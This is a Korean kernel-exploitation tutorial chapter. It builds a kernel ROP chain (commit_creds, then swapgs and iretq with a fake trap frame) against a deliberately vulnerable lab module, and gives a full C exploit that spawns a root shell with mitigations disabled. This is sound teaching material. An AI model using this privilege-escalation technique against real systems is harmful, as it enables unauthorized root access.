



# 2-4. 사용자 영역으로 돌아오는 다리 놓기

이제 `swapgs`와 `iretq`를 사용하여 커널 영역에서 권한 상승을 마치고 사용자 영역으로 무사히 돌아오는 실습을 진행해 보겠습니다!

먼저 실습 자료 폴더(`src/sample`) 안에 있는 `return.zip` 파일을 다운로드하여 압축을 풀어주세요.

(참고: 실습 환경을 구축하는 방법 및 제공되는 파일들의 용도는 1-3장과 완벽히 동일하므로 생략하겠습니다. 앞으로 등장할 모든 실습 문제들의 기본 세팅은 1-3장과 같습니다!)

## vuln\.ko 분석 : 달라진 win\_function

디컴파일러로 `vuln.ko`를 열어보면, 1장에서 보았던 `dev_write` 함수가 완전히 똑같은 형태로 정의되어 있습니다. 즉, 64바이트 버퍼를 넘치게 하여 반환 주소를 덮어쓸 수 있는 버퍼 오버플로우 취약점은 여전히 유효합니다.

그런데 모듈 안에 정의된 <b>`win_function`</b>의 모습이 조금 달라졌습니다. 코드를 살펴볼까요?

```c
void win_function()
{
  __int64 v0; // rax

  printk(a1: &unk_840);
  /* 이번 문제에서는 플래그를 읽지 않고 '권한 상승'만 수행합니다! */
  v0 = prepare_kernel_cred(a1: &init_task);
  commit_creds(a1: v0);
  // 어라? 1장에 있던 panic() 함수가 사라졌습니다!
}
```

1장과의 결정적인 차이가 보이시나요? 1장에서는 플래그를 출력한 뒤 커널을 강제로 죽이는 panic() 함수가 있었지만, 이번에는 **권한 상승(commit_creds)만 수행하고 함수가 정상적으로 끝(return)납니다.**

### 잠깐! 그럼 1장과 똑같은 방법으로 공격하면 어떻게 되나요?

만약 1장에서 짰던 익스플로잇 코드를 그대로 가져와서 반환 주소를 `win_function` 으로만 덮어쓰면 어떻게 될까요?


아쉽게도 커널 패닉(Crash)이 발생하며 실험 환경이 죽어버립니다. 커널 로그를 보면 `win_function`이 실행되었다는 메시지는 떴는데, 도대체 왜 죽은 걸까요? **루트(root) 권한은 얻었는데 정작 이것이 우리에게 돌아오지 못했습니다!**

해답은 바로 **함수가 끝난 직후**에 있습니다.

`win_function`의 실행을 마치고 원래 위치로 돌아가기 위해 `ret` 명령어를 실행하는 순간, 커널은 현재 스택의 최상단에서 다음 실행할 주소를 꺼냅니다.

그런데 버퍼 오버플로우 공격을 하느라 우리가 커널 스택을 오염시켰죠? 위 사진의 에러 로그를 보면 RIP가 0010:0x10000이라는 엉뚱한 주소로 옮겨진 것을 볼 수 있습니다. 당연히 정의되지 않은 영역의 코드를 실행하려 했으므로 커널이 패닉한 것입니다.

## 완벽한 탈출을 위한 가젯(Gadget) 찾기

우리의 커널 익스플로잇 계획을 다시 한번 점검해 봅시다.

1. <b>root 권한 획득 (성공!)</b> : 현재 `win_function` 으로 점프하여 권한 상승에 성공했습니다.
2. <b>`swapgs` 실행하기</b> : 사용자 스택과 커널 스택의 gs 레지스터를 교체합니다.
3. <b>`iretq` 실행하기</b> : 스택에 저장한 트랩 프레임을 읽어 사용자 영역으로 무사히 복귀합니다.

1번은 해결했으니, 이제 반환 주소를 연속으로 조작하여 2번과 3번을 순서대로 실행시킬 차례입니다.

가장 먼저 `swapgs` 명령어는 어디서 구해야 할까요? 이 명령어는 커널에서만 쓰는 특권 명령어이므로, 거대한 `vmlinux` 바이너리의 코드 영역을 샅샅이 뒤져서 쓸만한 코드 조각을 찾아야 합니다.



디스어셈블러로 `vmlinux` 내부를 탐험하다 보면, 위 사진처럼 `paranoid_entry` 라는 특이한 함수를 볼 수 있습니다.

여기서 `paranoid_entry+0x98` 위치를 주목하세요! 우리가 찾는 `swapgs` 명령어가 있습니다. 이 명령어 뒤에는 `nop`(No Operation. 아무 작업도 하지 않고 다음 명령어로 넘어갑니다.)명령어가 잔뜩 깔려 있고, 마지막에는 `__pi___x86_return_thunk` 함수로 실행 흐름이 넘어갑니다. 1장에서도 슬쩍 언급이 된 함수지만, **해당 함수는 사실 `ret`와 작동 방식이 완벽하게 같은 커널의 대체 함수입니다!**

따라서 우리가 `win_function`이 끝난 뒤 실행 흐름을 `paranoid_entry+0x98`로 옮기면, 커널은 `swapgs` 실행 이후 `nop`을 건너 `ret`을 실행합니다. 사실상 `swapgs; ret;` 가젯이 실행된 것과 같습니다! `ret`이 실행되면 스택에서 다음 주소를 하나 더 꺼내오므로, 실행 흐름을 또 한 번 더 옮길 수 있습니다.

2번 과정이 끝났으니 이제 3번, `iretq`만 실행하면 끝납니다! `iretq`는 어디에 있을까요?



2-2장에서 `entry_SYSCALL_64` 함수를 분석할 때 `iretq`가 있던 복귀 경로를 기억하시나요? 주소상으로 `entry_SYSCALL_64+0x164a` 위치에 있습니다. 이것을 `swapgs` 다음에 실행하면, 드디어 사용자 영역으로 돌아가게 됩니다!

### 잠깐! vmlinux 내부에 swapgs; ret; 같은 간단한 가젯은 없나요?

벌써부터 리턴 가젯(Return gadgets)의 개념을 떠올리시다니 눈치가 빠르시군요!

운영체제 커널도 결국 소프트웨어이므로, `ROPgadgets` 등 도구를 사용하면 쓸만한 코드 조각들을 수집해 응용 프로그램처럼 ROP 공격을 수행할 수 있습니다. 커널을 대상으로 하기에 이를 <b>KROP (Kernel-ROP)</b>라고 부릅니다.

그런데 왜 굳이 복잡하게 `paranoid_entry` 같은 곳을 뒤졌을까요? 과거의 구형 커널에는 실제로 `swapgs; ret;` 처럼 사용하기 편리한 가젯이 존재했습니다. 하지만 리눅스 커널은 전 세계 최고 수준의 개발자들이 끊임없이 보안 패치를 하고 있으며, 이 과정에서 해커들이 쓰기 좋은 가젯들이 의도적으로 삭제되고 있습니다.

하지만 해킹의 본질은 변하지 않습니다! 결국 리턴 가젯 또한 프로세스의 실행 흐름을 조작하는 것이므로, 코드의 흐름을 읽고 자신에게 필요한 코드 조각을 찾아내는 것이야 말로 진정한 해커의 능력입니다. (참고로 본 실습의 커널은 `Linux 7.1.4` 버전이며, 버전마다 가젯의 위치와 모양은 계속 변합니다. 여러분들도 직접 바이너리를 분석하여 쓸만한 코드 조각들을 찾아보시기 바랍니다.)

#### 해커의 TMI : paranoid\_entry 에 왜 nop이 저렇게나 많이 있고, 왜 간단하게 ret 대신 \_\_x86\_return\_thunk 를 쓰는 건가요?

리눅스 커널은 실행 중에 코드를 변경하는 라이브 패치(Live-Patch) 기능을 많이 사용합니다. 이때 패치 코드를 넣으려면 그 공간이 필요하므로, 코드 넣을 자리를 만들어주기 위해 `nop`을 삽입합니다.

그 밖에도, `paranoid_entry` 처럼 커널 내부에 존재하는 저수준 함수들은 성능을 위해 메모리를 몇 바이트 단위로 정렬하는 경우가 많습니다. 이때도 `nop`을 씁니다.

결정적으로, <b>Spectre(스펙터/CPU 게이트)</b>라 불리는 하드웨어 부채널 취약점[(CVE-2017-5715)](https://nvd.nist.gov/vuln/detail/cve-2017-5715)이 세상에 알려졌을 때, 하드웨어 취약점으로 인한 커널 메모리 유출을 막기 위해 커널 코드의 구조 및 컴파일 과정이 대거 수정되었습니다. 단순 `ret` 명령어 대신 `__x86_return_thunk` 같은 래퍼 함수를 거쳐 안전하게 복귀하도록 만든 것도 바로 위 취약점을 사용한 공격을 차단하기 위함입니다.

위 취약점과 관련한 내용은 이후 장에서 더 자세히 설명하겠습니다. 현재 운영체제의 보호 기법과도 연관이 깊고, 전 세계 컴퓨터 아키텍처에 충격을 주었던 핵심 주제이기 때문입니다.

## 익스플로잇 코드 완성하기

이제 필요한 가젯(코드 조각)들의 위치를 모두 알아냈으니, 우리가 계획했던 탈출 경로와 페이로드를 스택에 차곡차곡 쌓아봅시다!

아래 그림처럼 원래의 반환 주소 자리를 `win_function`으로 덮고, 그 아래에 `swapgs; ret;`, `iretq`, 그리고 가짜 트랩 프레임(레지스터 5개)을 순서대로 배열해 주세요.



어라? 이 실행 흐름, 유저 영역 시스템 해킹에서 배우는 <b>ROP(Return-Oriented Programming)</b>와 완전히 똑같이 생기지 않았나요?

맞습니다! 이것이 바로 커널 영역의 ROP, **KROP**입니다. `/dev_write`가 끝날 때 우리가 조작한 스택에서 값을 하나씩 꺼내면서, 먼저 `win_function`을 실행하여 root 권한을 얻고, `swapgs`로 스택을 교체한 뒤, `iretq`로 스택에 있는 가짜 트랩 프레임을 뽑아 사용자 영역으로 우리를 안전하게 귀환시킬 것입니다.

자, 계획이 완벽하게 세워졌으니 대망의 최종 익스플로잇 코드를 작성해 봅시다!

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#define NUM 88

/* 권한을 상승시킨 후에는 이 영역으로 돌아와서 셸을 획득합니다. */
void win_shell(void) {
    printf("[*] YES!!!!! I GOT A ROOT SHELL!!!!!\n");
    execl("/bin/sh", "sh", NULL); // 🚨 주의! system() 대신 반드시 execl()을 사용해야 합니다!
}

int main() {
    // 1. 취약한 장치 열기
    int fd = open("/dev/vuln", O_RDWR);
    if (fd < 0) {
        perror("[-] Failed to open /dev/vuln");
        return -1;
    }

    // 2. 페이로드 구성
    // k_buffer(64) + SFP(24) = 88바이트를 쓰레기 값으로 채움
    // 버퍼는 64바이트이고, ret 이전에 3개의 값이 POP 됩니다.
    char payload[200] = { 0 };
    memset(payload, 'A', NUM);

    /* 하드코딩된 가젯 주소들 */
    unsigned long win_addr = 0xffffffffc0000010; // win_function
    unsigned long swapgs = 0xffffffff810017c0 + 0x98; // paranoid_entry + 0x98 (swapgs; ret;)
    unsigned long iretq = 0xffffffff81000080 + 0x164a; // entry_SYACALL_64 + 0x164a (iretq)

    /* KROP 체인 연결 (win_function -> swapgs -> iretq) */
    memcpy(payload + NUM, &win_addr, 8);
    memcpy(payload + NUM + 8, &swapgs, 8);
    memcpy(payload + NUM + 16, &iretq, 8);

    /* iretq가 사용할 가짜 트랩 프레임을 설정합니다. */
    unsigned long iretq_stack[5] = {0};
    unsigned long fake_stack[2048] = {0}; // 셸이 사용할 넉넉한 가짜 스택 공간입니다.
    iretq_stack[0] = (unsigned long)&win_shell; // RIP : 복귀하자마자 셸을 실행하게 해 줍니다.
    iretq_stack[1] = 0x33; // CS : 리눅스 기본값
    iretq_stack[2] = 0x202; // RFLAGS : 인터럽트 허용 설정
    iretq_stack[3] = (unsigned long)(fake_stack) + 2048; // RSP : 위에서 만든 가짜 스택의 끝 주소
    iretq_stack[4] = 0x2b; // SS : 리눅스 기본값
    
    /* 세팅된 트랩 프레임을 KROP 페이로드 맨 끝에 이어 붙입니다. (8바이트 * 5개 = 40바이트) */
    memcpy(payload + NUM + 24, &iretq_stack, 40);
    
    printf("[+] Sending exploit payload...\n");

    // 3. write를 실행하여 공격합니다(88 + 체인 24 + 프레임 40 = 152바이트).
    write(fd, payload, NUM + 64);

    close(fd);
    return 0;
}
```

### 🤔 잠깐! 왜 셸을 획득할 때 system() 대신 execl()을 사용해야 하나요?

익스플로잇 코드 최상단에 있는 `win_shell` 함수를 유심히 보세요. 유저 해킹에서는 편하게 쓰던 `system("/bin/sh")`을 버리고, 그 대신 `execl("/bin/sh", "sh", NULL)`을 썼습니다. 여기에는 두 가지 아주 중요한 이유가 있습니다!

1. 커널 영역은 이미 오염된 상태입니다.
    * `system()` 함수는 C 라이브러리(libc) 내부에 구현된 매우 무겁고 복잡한 래퍼(Wrapper) 함수입니다. 내부적으로 `fork`, `execve`, `waitpid` 등 수많은 시스템 호출을 연달아 발생시킵니다. 현재 시스템은 우리가 억지로 스택을 오염시키고 강제로 사용자 영역으로 복귀시킨 탓에 커널 내부의 구조체나 메모리 상태가 매우 불안정합니다. 이 상태에서 무거운 `system()`을 호출하면 커널이 버티지 못하고 패닉(Panic)을 일으킬 확률이 매우 높습니다!

2. 리눅스 시스템에서 셸은 보안 기능이 있습니다.
    * 우리가 띄우려는 `/bin/sh`은 Ubuntu 등 대부분의 리눅스 배포판에서 `bash`나 `dash` 같은 셸과 연결되어 있습니다. 이 셸들은 자체적인 보안 기능을 가지고 있어서, **프로세스의 '실제 사용자(RUID)'와 '유효 사용자(EUID)'가 다르면 해킹 공격으로 간주하고 권한을 강제로 낮춰버립니다.**
    * 우리가 1장에서 배운 `commit_creds` 역시 현재 프로세스의 유효 권한(EUID)만 0(root)으로 교체합니다. 이때 system()을 쓰면 시스템이 멋대로 권한을 뺏어버려 기껏 얻은 root를 날리게 됩니다.

그렇다면 `execl()`은 어떨까요? 이 함수는 별다른 작업 없이 즉시 `execve()` 시스템 호출만 한 번 실행하며, **오직 현재 실행 중인 프로세스의 코드/데이터 영역만 깔끔하게 셸(`/bin/sh`)로 교체해 버립니다.** `system()` 보다 훨씬 가볍고 빠르며, **프로세스의 권한 정보를 유지한 채로 온전한 root 셸을 획득할 수 있습니다.**

```c
/* 정식 execve() 시스템 호출의 사용 방법 */
char *argv[] = {"/bin/sh", NULL};
char *envp[] = {NULL};
execve("/bin/sh", argv, envp);

/* execl()은 위 시스템 호출을 편하게 쓸 수 있게 해 준다. */
execl("/bin/sh", "sh", NULL); 
```

위 예시는 `execve()`와 `execl()`의 사용 방법을 정리한 것입니다. 두 함수 모두 같은 기능을 하지만, `execl()`이 사용자 입장에서 쓰기 더 편하죠?

자, 모든 설명이 끝났습니다. 떨리는 손으로 실습 환경에서 제가 제작한 `exploit`을 실행해 보세요.


<strong>`[*] YES!!!!! I GOT A ROOT SHELL!!!!!`</strong>

**터미널의 프롬프트가 `$` 기호에서 최고 관리자를 뜻하는 영롱한 `#` 기호로 바뀐 것이 보이시나요?**

축하합니다! 완벽한 커널 익스플로잇을 통해 최고 관리자 권한(root)을 획득하셨고, root만 읽을 수 있던 플래그를 읽는데 성공했습니다! 커널이 죽지도 않고 아주 평온하게 살아 숨 쉬고 있죠? 여러분은 이제 진정한 커널 해커입니다.

## 🏁 1부를 마치며(그리고 새로운 시작)

물론 현실 세계의 운영체제 해킹이 늘 이렇게 호락호락하지는 않습니다. 리누스 토르발즈를 포함한 전 세계 최고의 커널 개발자들은 해커들이 이렇게 쉽게 시스템을 장악하지 못하도록 <b>강력한 보안 장치(KASLR, SMEP, SMAP, KPTI 등)</b>들을 겹겹이 설치해 두었습니다.

(이번 1장과 2장에서는 여러분이 공격의 기본 뼈대를 쉽게 이해할 수 있도록, 이 보안 장치들을 모두 해제해 둔 '훈련장' 상태였습니다.)

**이어지는 2부(3장~)부터는 실전입니다.** 이 보안 장치들이 정확히 어떻게 동작하여 우리의 공격을 막아내는지 이해하고, 이것들을 우리의 능력으로 하나씩 우회(Bypass)하는 진짜 해킹을 시작해 보겠습니다. 준비되셨나요?